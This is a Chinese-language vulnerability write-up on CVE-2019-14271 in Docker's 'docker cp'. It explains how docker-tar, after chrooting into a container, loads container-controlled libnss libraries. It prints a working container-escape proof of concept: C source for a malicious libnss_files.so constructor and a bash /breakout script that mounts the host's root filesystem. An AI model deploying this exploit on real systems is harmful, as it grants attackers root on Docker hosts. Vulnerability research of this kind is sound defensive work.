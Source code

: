 # （CVE-2019-14271）Docker copy 漏洞

> 原文：[http://book.iwonder.run/0day/Docker/2.html](http://book.iwonder.run/0day/Docker/2.html)

## 一、漏洞简介

## 二、漏洞影响

Docker 19.03.1

## 三、复现过程

### Docker cp

Copy 命令允许从容器、向容器中、或容器之间复制文件。语法与标准的 unix cp 命令非常相似。要从容器中复制/var/logs，语法是 docker cp container_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker 使用了一个名为 docker-tar 的帮助进程。

![image](img/4fff1891d847b6d3ecef7a1e1a3fcbf8.png)

图 1\. 从容器中复制文件

docker-tar 是通过 chroot 到容器，将请求的文件或目录存档，然后将生成的 tar 文件传递给 Docker daemon，然后由 daemon 提取到主机的目标目录中。

注释：CHROOT 就是 Change Root，也就是改变程序执行时所参考的根目录位置。CHROOT 可以增进系统的安全性，限制使用者能做的事。

![image](img/28da761e0c52029200fc3094fadfe31c.png)

图 2\. docker-tar chroot 到容器中

Chroot 主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到 host root。因此，攻击者控制的容器就可以尝试和诱使 docker cp 在主机而非容器上读写文件。去年有许多 Docker 和 Podman 相关的系统链接 CVE 漏洞。通过 chroot 到容器的 root，docker-tar 可以确保所有系统链接都可以高效地解析。

但，chroot 到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker 是用 Golang 语言编写。有漏洞的 Docker 版本是用 Go v1.11 编译的。在该版本中，一些含有嵌入 C 代码（cgo）的包会在运行时动态加载共享的库。这些包包括 net 和 os/user，都是 docker-tar 使用的，而且在运行时会加载多个 libnss_*.so 库。一般来说，库是从 host 文件系统加载的，但因为 docker-tarchroot 到了容器，因此会从容器文件系统中加载库。也就是说 docker-tat 会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了 chroot 到容器文件系统外，docker-tar 并没有被容器化。它是在 host 命名空间运行的，权限为 root 全新且不受限于 cgroups 或 seccomp。因此，通过注入代码到 docker-tar，恶意容器就可以获取 host 主机的完全 root 访问权限。

可能的攻击场景有 Docker 用户从另一个 Docker 处复制文件：

容器运行含有恶意 libnss_*.so 库的镜像

容器中含有被攻击者替换的 libnss_*.so 库

在这两种情况下，攻击者都可以获取主机上的 root 代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意 libnss 库。研究人员随意选择了 libnss_files.so 文件，下载了库函数的源码，并在代码中加入了一个函数——run_at_link()。研究人员还为该函数定义了 constructor 属性。constructor 属性表明 run_at_link 函数在进程加载时会作为库的初始化函数执行。也就是说，当 Docker-tar 进程动态加载恶意库时，run_at_link 函数就会执行。下面是 run_at_link 的代码：

```
#include ...

#define ORIGINAL_LIBNSS "/original_libnss_files.so.2"
#define LIBNSS_PATH "/lib/x86_64-linux-gnu/libnss_files.so.2"

bool is_priviliged();

__attribute__ ((constructor)) void run_at_link(void)
{
     char * argv_break[2];
     if (!is_priviliged())
           return;

     rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
     fprintf(log_fp, "switched back to the original libnss_file.so");

     if (!fork())
     {

           // Child runs breakout
           argv_break[0] = strdup("/breakout");
           argv_break[1] = NULL;
           execve("/breakout", argv_break, NULL);
     }
     else
           wait(NULL); // Wait for child

     return;
}
bool is_priviliged()
{
     FILE * proc_file = fopen("/proc/self/exe", "r");
     if (proc_file != NULL)
     {
           fclose(proc_file);
           return false; // can open so /proc exists, not privileged
     }
     return true; // we're running in the context of docker-tar
} 
```

查/proc 目录完成的。如果 run_at_link 运行在 docker-tar 环境下，那么目录就是空的，因为 procfs 挂载在/proc 上只存在于容器的 mount 命名空间。

然后，run_at_link 会用恶意 libnss 库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发 run_at_link 执行。

为简化该漏洞利用，run_at_link 会尝试在容器的/breakout 路径下运行可执行文件。这样漏洞利用的其他部分就可以用 bash 写入，而非 C 语言。让逻辑的其他部分在 run_at_link 外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变 breakout 二进制文件就可以了。

![image](img/c39eb805ff692155704d16dad365ea78.png)

利用 CVE-2019-14271 打破 Docker

在该漏洞视频中，Docker 用户会运行含有恶意 libnss_files.so 的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout 二进制文件是一个简单的 bash 脚步，会挂载 host 文件系统到/host_fs 的容器中，并将消息写入 host 的/evil 目录。 /breakout 脚本代码如下：

```
umount /host_fs && rm -rf /host_fs
mkdir /host_fs

mount -t proc none /proc     # mount the host's procfs over /proc
cd /proc/1/root              # chdir to host's root
mount --bind . /host_fs      # mount host root at /host_fs
echo "Hello from within the container!" > /host_fs/evil 
```

## 四、参考链接

> [https://xz.aliyun.com/t/6806](https://xz.aliyun.com/t/6806)

